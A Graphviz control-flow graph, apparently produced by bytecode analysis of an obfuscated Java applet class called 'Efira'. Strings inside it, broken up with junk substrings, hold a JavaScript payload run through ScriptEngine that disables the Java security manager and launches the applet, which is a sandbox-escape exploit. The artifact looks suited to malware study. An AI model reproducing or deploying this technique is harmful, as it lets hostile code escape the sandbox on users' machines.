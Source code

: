 digraph "" {
    "r0 := @this: Efira"
    "push 0"
    "r0 := @this: Efira"->"push 0";
    "store.i i0"
    "push 0"->"store.i i0";
    "load.i i0"
    "store.i i0"->"load.i i0";
    "push 10"
    "load.i i0"->"push 10";
    "ifcmpge.i return"
    "push 10"->"ifcmpge.i return";
    "load.r r0"
    "ifcmpge.i return"->"load.r r0";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "pop"
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "virtualinvoke <Efira: void serg()>"
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "virtualinvoke <Efira: void serg()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "virtualinvoke <Efira: void serg()>"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r12"
    "newarray"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "load.r $r12"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"jssg12s\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"jssg12s\"";
    "push \"ssg12\""
    "push \"jssg12s\""->"push \"ssg12\"";
    "push \"\""
    "push \"ssg12\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "push \"vwe31sar errwe31sor = nwe31sew Errwe31sor(\\\"Mwe31sy errwe31sor\\\");thwe31sis.toStwe31sring = functwe31sion(){ jawe31sva.lawe31sng.Systwe31sem.swe31setSecuwe31srityMwe31sanagwe31ser(nulwe31sl);apwe31splewe31st.stwe31sart();rewe31sturn \\\"ewe31sxplowe31sit!\\\";};we31serwe31sror.meswe31ssage = thwe31sis;\""
    "virtualinvoke <Efira: void serg()>"->"push \"vwe31sar errwe31sor = nwe31sew Errwe31sor(\\\"Mwe31sy errwe31sor\\\");thwe31sis.toStwe31sring = functwe31sion(){ jawe31sva.lawe31sng.Systwe31sem.swe31setSecuwe31srityMwe31sanagwe31ser(nulwe31sl);apwe31splewe31st.stwe31sart();rewe31sturn \\\"ewe31sxplowe31sit!\\\";};we31serwe31sror.meswe31ssage = thwe31sis;\"";
    "push \"we31s\""
    "push \"vwe31sar errwe31sor = nwe31sew Errwe31sor(\\\"Mwe31sy errwe31sor\\\");thwe31sis.toStwe31sring = functwe31sion(){ jawe31sva.lawe31sng.Systwe31sem.swe31setSecuwe31srityMwe31sanagwe31ser(nulwe31sl);apwe31splewe31st.stwe31sart();rewe31sturn \\\"ewe31sxplowe31sit!\\\";};we31serwe31sror.meswe31ssage = thwe31sis;\""->"push \"we31s\"";
    "push \"we31s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "push \"ersdfwrosdfwr\""
    "virtualinvoke <Efira: void serg()>"->"push \"ersdfwrosdfwr\"";
    "push \"sdfw\""
    "push \"ersdfwrosdfwr\""->"push \"sdfw\"";
    "push \"sdfw\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r12";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r12"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Efira: javax.swing.JList xsdn2>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Efira: javax.swing.JList xsdn2>";
    "fieldput <Efira: javax.swing.JList xsdn2>"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "virtualinvoke <Efira: void serg()>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Efira: javax.swing.JList xsdn2>"
    "load.r r0"->"fieldget <Efira: javax.swing.JList xsdn2>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"
    "fieldget <Efira: javax.swing.JList xsdn2>"->"virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Efira: java.awt.Component add(java.awt.Component)>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: void serg()>";
    "virtualinvoke <Efira: void serg()>"->"push 10";
    "push 10"->"store.i i0";
    "store.i i0"->"load.r r0";
    "load.r r0"->"virtualinvoke <Efira: java.lang.Boolean aerg()>";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"pop";
    "return"
    "pop"->"return";
    "virtualinvoke <Efira: java.lang.Boolean aerg()>"->"store.r $r12";
    "store.r $r12"->"load.i i0";
    "push 9"
    "load.i i0"->"push 9";
    "ifcmpeq.i inc.i i0 1"
    "push 9"->"ifcmpeq.i inc.i i0 1";
    "goto inc.i i0 1"
    "ifcmpeq.i inc.i i0 1"->"goto inc.i i0 1";
    "inc.i i0 1"
    "goto inc.i i0 1"->"inc.i i0 1";
    "goto load.i i0"
    "inc.i i0 1"->"goto load.i i0";
    "ifcmpge.i return"->"return";
}
